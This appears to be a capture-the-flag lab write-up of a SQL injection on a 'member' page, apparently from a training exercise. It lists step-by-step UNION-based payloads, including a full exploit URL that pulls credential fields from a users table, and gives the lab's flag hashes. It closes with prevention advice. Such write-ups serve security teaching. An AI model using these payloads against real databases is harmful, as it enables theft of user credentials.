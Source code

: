 # SQL Injection Vulnerability in Member Page

## Overview

A **SQL Injection** vulnerability was identified on the `member` page. By manipulating the `id` parameter, an attacker can retrieve sensitive data (such as user credentials and database structure) from the underlying database.

## Steps to Reproduce

1. **Initial Test**

   - **Payload**: `2 OR 1=1 --`
   - **Goal**: Bypass logic to force the query to always return all users.

2. **Column Enumeration**

   - **Payload**: `2 ORDER BY 2 --`
   - **Goal**: Determine the number of columns.
   - Testing with `ORDER BY 3` triggered an error, confirming there are only 2 columns in the original query.

3. **Database Schema Enumeration**

   - **Payload**:
     ```sql
     1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns --
     ```
   - **Goal**: Enumerate all tables and columns in the database.
   - `1=2` ensures the initial query returns no rows, allowing the `UNION` part to expose database schema information.

4. **Extracting Sensitive Fields**

   - **Payload**:
     ```sql
     1 AND 1=2 UNION SELECT Commentaire, countersign FROM users --
     ```
   - **Goal**: Retrieve sensitive fields from the `users` table.

5. **Exploited URL**
   - **Payload** (URL-encoded):
     ```
     http://192.168.122.121/?page=member&id=1+AND+1%3D2+UNION+SELECT+Commentaire%2C+countersign+FROM+users+--&Submit=Submit#
     ```
   - **Parameter**: `id`
   - **Injection point**: `1+AND+1%3D2+UNION+SELECT+Commentaire%2C+countersign+FROM+users+--`

## Flag

- **Original**: `5ff9d0165b4f92b14994e5c685cdce28` (md5)
- **Converted**: `FortyTwo`
- **To sha256**: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## How to Prevent SQL Injections

Modern frameworks often handle the nuances of SQL injection prevention automatically. However, developers must still follow best practices to ensure full protection:

1. **Parameterized Queries / Prepared Statements**

   - Use parameterized queries to automatically sanitize user inputs instead of manually constructing SQL strings.

2. **Input Validation**

   - Validate and sanitize user inputs to allow only expected data formats (e.g., numeric values for IDs).

3. **Use of an ORM (Object-Relational Mapping)**

   - Rely on established frameworks (e.g., Hibernate, Entity Framework, Django ORM) that handle SQL queries safely.

4. **Least Privilege Principle**

   - Restrict database user privileges to the bare minimum needed.

5. **Regular Updates and Patches**
   - Keep your frameworks, libraries, and database software up to date to benefit from the latest security fixes.

By employing these methods—especially by leveraging modern frameworks that implement secure defaults—developers can greatly reduce the risk of SQL injection attacks.
